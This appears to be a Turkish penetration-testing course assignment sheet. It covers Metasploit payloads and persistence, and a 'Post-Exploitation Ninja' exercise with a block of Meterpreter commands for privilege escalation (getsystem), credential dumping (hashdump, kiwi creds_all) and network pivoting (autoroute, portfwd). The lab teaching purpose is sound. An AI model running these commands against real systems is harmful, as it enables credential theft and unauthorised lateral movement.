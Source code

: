 ### 📊 Beklenen Çıktı:
- 5 farklı payload dosyası
- Handler konfigürasyonları
- Başarılı session ekran görüntüleri
- Persistence tekniklerinin demo'su

### ✅ Değerlendirme Kriterleri:
- Payload çeşitliliği (30%)
- Handler kurulumu (25%)
- Session yönetimi (25%)
- Persistence uygulama (20%)

---

## 🎯 ÖDEV 2: Post-Exploitation Ninja
**Süre:** 100 dakika  
**Zorluk:** İleri ⭐⭐⭐

### 📋 Görevler:
1. Windows ve Linux hedeflerde privilege escalation yapın
2. Sistem bilgilerini toplayın ve analiz edin
3. Password harvesting teknikleri uygulayın
4. Network pivoting ile diğer sistemlere erişim sağlayın

### 🔧 Post-Exploitation Teknikleri:
```bash
# Meterpreter session içinde:

# System bilgisi
sysinfo
getuid
ps

# Privilege escalation
getsystem
use priv

# Password harvesting
hashdump
load kiwi
creds_all

# Network pivoting
run autoroute -s 192.168.10.0/24
portfwd add -l 3389 -p 3389 -r 192.168.10.50
```

### 📊 Beklenen Çıktı:
- System privilege ekran görüntüsü
- Toplanan sistem bilgileri raporu
- Hash ve credential listesi
- Network pivoting demo'su
